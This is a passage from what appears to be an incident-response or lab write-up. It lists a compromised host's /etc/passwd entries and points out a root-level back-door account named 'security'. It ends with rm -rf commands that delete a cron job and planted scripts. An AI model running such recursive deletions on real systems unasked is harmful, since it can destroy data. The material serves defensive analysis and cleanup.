systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
Debian-exim:x:105:106::/var/spool/exim4:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
alex:x:1000:1000::/home/alex:/bin/bash
security:x:0:0::/home/security:/bin/sh
```

The only users here are `alex` and `security`, so the user `moodr` from before is probably on the culprit's machine. We also see that the back-door account `security` is in the `root` group (`GID 0`). This is good info for reporting.

### Complete cleanup

```bash
rm -rf /etc/cron.d/evil
rm -rf /opt/brilliant_script.sh
rm -rf /home/alex/fixutil
rm -rf /opt/.fixutil
```
